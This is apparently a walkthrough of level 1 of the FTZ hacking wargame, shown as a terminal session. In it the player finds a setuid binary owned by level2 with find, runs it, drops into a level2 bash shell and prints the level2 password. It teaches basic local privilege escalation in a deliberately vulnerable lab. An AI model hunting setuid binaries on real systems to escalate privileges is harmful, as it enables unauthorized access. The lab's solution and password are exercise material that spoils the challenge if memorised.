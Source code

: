 # Level1
`[level1@ftz level1]$ ls -l
total 12
-rw-r--r--    1 root     root           47 Apr  4  2000 hint
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html
drwxrwxr-x    2 root     level1       4096 Jun  3 11:58 tmp
[level1@ftz level1]$ cat hint
Level2 권한에 setuid가 걸린 파일을 찾는다.`

`[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null
/bin/ExecuteMe
[level1@ftz level1]$ ls -l /bin/ExecuteMe
-rwsr-x---    1 level2   level1      12868 Aug 19  2014 /bin/ExecuteMe`

`[level1@ftz level1]$ /bin/ExecuteMe`

`[level2@ftz level2]$ bash`

`[level2@ftz level2]$ my-pass
Level2 Password is "hacker or cracker".`

